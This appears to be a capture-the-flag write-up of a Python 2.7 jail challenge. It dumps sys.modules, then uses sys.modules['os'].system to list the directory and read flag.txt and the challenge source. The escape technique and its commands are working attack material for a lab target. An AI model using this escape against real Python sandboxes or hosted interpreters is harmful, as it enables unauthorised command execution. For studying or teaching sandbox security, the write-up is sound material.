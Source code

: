 ```
{'copy_reg': <module 'copy_reg' from '/usr/local/lib/python2.7/copy_reg.py'>, 'sre_compile': <module 'sre_compile' from '/usr/local/lib/python2.7/sre_compile.py'>, '_sre': <module '_sre' (built-in)>, 'encodings': <module 'encodings' from '/usr/local/lib/python2.7/encodings/__init__.py'>, 'site': <module 'site' from '/usr/local/lib/python2.7/site.py'>, '__builtin__': <module '?' (built-in)>, 'sysconfig': <module 'sysconfig' from '/usr/local/lib/python2.7/sysconfig.py'>, '__main__': <module '__main__' from 'chal.py'>, 'encodings.encodings': None, 'abc': <module 'abc' from '/usr/local/lib/python2.7/abc.py'>, 'posixpath': <module 'posixpath' from '/usr/local/lib/python2.7/posixpath.py'>, '_weakrefset': <module '_weakrefset' from '/usr/local/lib/python2.7/_weakrefset.py'>, 'errno': <module 'errno' (built-in)>, 'encodings.codecs': None, 'sre_constants': <module 'sre_constants' from '/usr/local/lib/python2.7/sre_constants.py'>, 're': <module 're' from '/usr/local/lib/python2.7/re.py'>, '_abcoll': <module '_abcoll' from '/usr/local/lib/python2.7/_abcoll.py'>, 'types': <module 'types' from '/usr/local/lib/python2.7/types.py'>, '_codecs': <module '_codecs' (built-in)>, 'encodings.__builtin__': None, '_warnings': <module '_warnings' (built-in)>, 'genericpath': <module 'genericpath' from '/usr/local/lib/python2.7/genericpath.py'>, 'stat': <module 'stat' from '/usr/local/lib/python2.7/stat.py'>, 'zipimport': <module 'zipimport' (built-in)>, '_sysconfigdata': <module '_sysconfigdata' from '/usr/local/lib/python2.7/_sysconfigdata.py'>, 'warnings': <module 'warnings' from '/usr/local/lib/python2.7/warnings.py'>, 'UserDict': <module 'UserDict' from '/usr/local/lib/python2.7/UserDict.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from '/usr/local/lib/python2.7/encodings/utf_8.py'>, 'sys': <module 'sys' (built-in)>, 'codecs': <module 'codecs' from '/usr/local/lib/python2.7/codecs.py'>, 'os.path': <module 'posixpath' from '/usr/local/lib/python2.7/posixpath.py'>, '_locale': <module '_locale' from '/usr/local/lib/python2.7/lib-dynload/_locale.so'>, 'signal': <module 'signal' (built-in)>, 'traceback': <module 'traceback' from '/usr/local/lib/python2.7/traceback.py'>, 'linecache': <module 'linecache' from '/usr/local/lib/python2.7/linecache.py'>, 'posix': <module 'posix' (built-in)>, 'encodings.aliases': <module 'encodings.aliases' from '/usr/local/lib/python2.7/encodings/aliases.py'>, 'exceptions': <module 'exceptions' (built-in)>, 'sre_parse': <module 'sre_parse' from '/usr/local/lib/python2.7/sre_parse.py'>, 'os': <module 'os' from '/usr/local/lib/python2.7/os.py'>, '_weakref': <module '_weakref' (built-in)>}

```
Os module allow code execution...so yeah

```
>>> print sys.modules['os'].system('ls -al')               
total 28
drwxr-x--- 1 root ecowas 4096 Aug  3 20:40 .
drwxr-xr-x 1 root root   4096 Aug  3 22:51 ..
-rwxr-x--- 1 root ecowas 8916 Aug  3 20:39 chal.py
-rwxr----- 1 root ecowas   21 Aug  3 19:48 flag.txt
-rwxr-x--- 1 root ecowas   53 Aug  3 20:02 start.sh
0
```
Lol this one is amazing

```
>>> print sys.modules['os'].system('cat flag.txt')
Check the source code0
```
I knew It could not be over yet

```
>>> print sys.modules['os'].system('cat chal.py') 
...
[REDACTED]
```
I put the mad long output [here](2022/chal.py)
